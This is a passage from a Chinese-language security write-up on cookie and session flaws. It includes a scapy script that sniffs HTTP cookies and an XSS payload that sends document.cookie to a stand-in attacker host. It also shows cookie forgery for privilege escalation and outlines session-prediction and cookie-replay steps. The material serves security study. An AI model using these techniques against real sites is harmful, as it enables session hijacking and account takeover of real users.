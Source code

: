 ### 3.2 传输安全缺陷
#### 3.2.1 中间人攻击
```python
# 使用scapy进行HTTP Cookie嗅探
from scapy.all import *

def packet_handler(pkt):
    if pkt.haslayer(TCP) and pkt.dport == 80:
        if 'Cookie:' in str(pkt[TCP].payload):
            print(f"Captured Cookie: {pkt[TCP].payload}")

sniff(filter="tcp port 80", prn=packet_handler, store=0)
```

### 3.3 存储安全缺陷
#### 3.3.1 XSS窃取Cookie
```javascript
// 恶意脚本注入
<script>
document.location='http://attacker.com/steal?cookie='+document.cookie;
</script>
```

#### 3.3.2 客户端篡改
```javascript
// 通过浏览器控制台修改Cookie
document.cookie = "user_role=admin; path=/";
document.cookie = "session=eyJ...（伪造内容）; path=/";
```

## 4. 攻击向量与利用场景
### 4.1 会话预测攻击
1. 收集合法会话样本
2. 分析会话ID模式（时间戳、递增序列）
3. 生成预测算法
4. 批量验证有效会话

### 4.2 Cookie参数篡改
```http
原始Cookie：
Cookie: user_id=123; role=user

篡改后：
Cookie: user_id=123; role=superadmin
```

### 4.3 中间人劫持
1. 在公共网络部署流量嗅探
2. 过滤HTTP协议中的Set-Cookie头
3. 重放被盗Cookie实现登录

